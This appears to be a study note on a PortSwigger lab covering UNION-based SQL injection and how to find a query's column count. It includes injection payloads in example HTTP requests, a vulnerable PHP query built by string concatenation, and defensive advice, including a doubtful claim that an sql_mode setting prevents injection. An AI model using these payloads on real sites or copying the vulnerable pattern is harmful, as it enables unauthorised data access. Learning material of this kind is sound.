

## Determining the Number of Columns in a Query

One of the key steps in exploiting SQL Injection is determining the number of columns returned by the original query. This is necessary to craft a valid UNION query that will not cause a syntax error.

### Using the UNION Clause

The UNION operator combines the result sets of two or more SELECT statements. To successfully exploit SQL Injection using UNION, the number of columns in the injected query must match the number of columns in the original query.

#### Example of UNION Injection

Consider the following original query:

```sql
SELECT username, password FROM users WHERE id = 1;
```

To determine the number of columns, an attacker might try different numbers of columns in the UNION query:

```sql
SELECT username, password FROM users WHERE id = 1 UNION SELECT 1, 2;
```

If the number of columns matches, the query will execute successfully. Otherwise, it will result in an error.

### Lab Exercise: Determining the Number of Columns

Let's walk through the lab exercise described in the transcript to determine the number of columns in a query.

#### Step-by-Step Process

1. **Send the Request to Repeater**:
   - Open the Burp Suite and navigate to the Repeater tab.
   - Copy the HTTP request that contains the SQL Injection vulnerability and paste it into Repeater.

2. **Modify the Request**:
   - Replace the original query with a UNION query.
   - Start with a small number of columns and incrementally increase until the query executes successfully.

3. **Analyze the Response**:
   - Send the modified request and observe the response.
   - If the response indicates an error, adjust the number of columns and try again.

#### Example HTTP Request and Response

Here is an example of the HTTP request and response:

```http
POST /search HTTP/1.1
Host: vulnerableapp.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

category=Gifts'+union+select+1,2--+
```

Response:

```http
HTTP/1.1 500 Internal Server Error
Date: Mon, 01 Jan 2024 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

Notice the `500 Internal Server Error` response, indicating that the number of columns is incorrect.

#### Incrementing the Number of Columns

Continue incrementing the number of columns until the response indicates success:

```http
POST /search HTTP/1.1
Host: vulnerableapp.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

category=Gifts'+union+select+1,2,3--+
```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 1234
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
<title>Search Results</title>
</head>
<body>
<h1>Congratulations, you solved the lab.</h1>
</body>
</html>
```

The successful response indicates that the number of columns is correct.

### Mermaid Diagram: SQL Injection Flow

A visual representation of the SQL Injection process can help understand the flow:



### Common Pitfalls and Detection

#### Common Pitfalls

- **Incorrect Number of Columns**: Failing to match the number of columns in the original query can result in errors.
- **Syntax Errors**: Incorrectly formatted SQL queries can cause syntax errors.
- **Encoding Issues**: Not properly encoding user input can lead to unexpected behavior.

#### Detection

- **Error Messages**: Look for error messages in the response that indicate SQL syntax issues.
- **Logging**: Enable detailed logging to capture and analyze SQL queries.
- **Web Application Firewalls (WAF)**: Use WAFs to detect and block suspicious SQL queries.

### How to Prevent / Defend Against SQL Injection

#### Secure Coding Practices

- **Parameterized Queries**: Use parameterized queries to separate SQL logic from user input.
- **Prepared Statements**: Use prepared statements to ensure that user input is treated as data rather than executable code.

#### Example: Secure Code vs Vulnerable Code

Vulnerable Code:

```php
$query = "SELECT * FROM users WHERE id = " . $_GET['id'];
$result = mysqli_query($conn, $query);
```

Secure Code:

```php
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $_GET['id']);
$stmt->execute();
$result = $stmt->get_result();
```

#### Configuration Hardening

- **Disable Unnecessary Features**: Disable features like stored procedures or triggers that are not required.
- **Least Privilege Principle**: Ensure that the database user has the minimum privileges necessary to perform its tasks.

#### Real-World Example: Secure Configuration

Consider the following secure configuration for a MySQL database:

```ini
[mysqld]
sql_mode=NO_ZERO_IN_DATE,NO_ZERO_DATE,ERROR_FOR_DIVISION_BY_ZERO,NO_AUTO_CREATE_USER,NO_ENGINE_SUBSTITUTION
```

This configuration ensures that the database operates in a secure mode, reducing the risk of SQL Injection.

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to practice SQL Injection techniques.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security exploits.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that demonstrates web application vulnerabilities.

These labs provide a safe environment to learn and practice SQL Injection techniques.

---
<!-- nav -->
[[04-Background Knowledge on SQL Injection and Union Operator|Background Knowledge on SQL Injection and Union Operator]] | [[Web Security (PortSwigger)/02-SQL Injection/04-Lab 3 SQLi UNION attack determining the number of columns returned by the query/00-Overview|Overview]] | [[06-SQL Injection Determining the Number of Columns Returned by the Query|SQL Injection Determining the Number of Columns Returned by the Query]]
